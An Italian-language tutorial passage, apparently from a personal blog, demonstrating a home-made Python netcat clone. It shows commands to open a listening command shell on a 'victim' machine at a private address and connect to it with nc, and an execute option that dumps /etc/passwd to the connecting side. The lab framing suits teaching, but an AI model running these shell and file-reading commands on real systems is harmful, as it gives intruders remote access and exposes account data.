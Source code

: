 Usando lo switch `--help` otteniamo questa lista di opzioni. Avviamo nel computer vittima il processo `command shell` per poi connetterci da remoto.

```bash
python3 NetCat.py -t 192.168.1.133 -p 5555 -l -c
```

Adesso la macchina virtuale aspetterà per una connessione nella porta `5555`.

Noi possiamo connetterci in vari modi a quella porta, uno di questi è usando il normale tool netcat:

![Pasted image 20221210132126.png](https://raw.githubusercontent.com/mcap0/mcap0.github.io/main/assets/Pasted%20image%2020221210132126.png)

Questa command line shell è programmata in modo da terminare il processo nel caso in cui si dovesse immettere un comando non valido.

![Pasted image 20221210132359.png](https://raw.githubusercontent.com/mcap0/mcap0.github.io/main/assets/Pasted%20image%2020221210132359.png)
_quando il comando non può essere valutato il processo del server viene terminato_
![Pasted image 20221210132417.png](https://raw.githubusercontent.com/mcap0/mcap0.github.io/main/assets/Pasted%20image%2020221210132417.png)
_la feature di `server killed` è molto utile in fase di debug_

## Comando singolo

Se volessimo valutare il testo in output di un singolo comando, per poi poterlo recuperare da remoto, basterebbe usare l'opzione `-e execute`:
quest'ultima eseguirà il comando e non appena si avrà una connessione in entrata, l'output del comando verrà inviato a noi che ci saremo connessi alla porta 5555:

Nel computer vittima:
```bash
python3 NetCat.py -t 192.168.1.133 -p 5555 -l -e="cat /etc/passwd" 
```

Nel nostro computer:
```bash
nc 192.168.1.133 5555
```
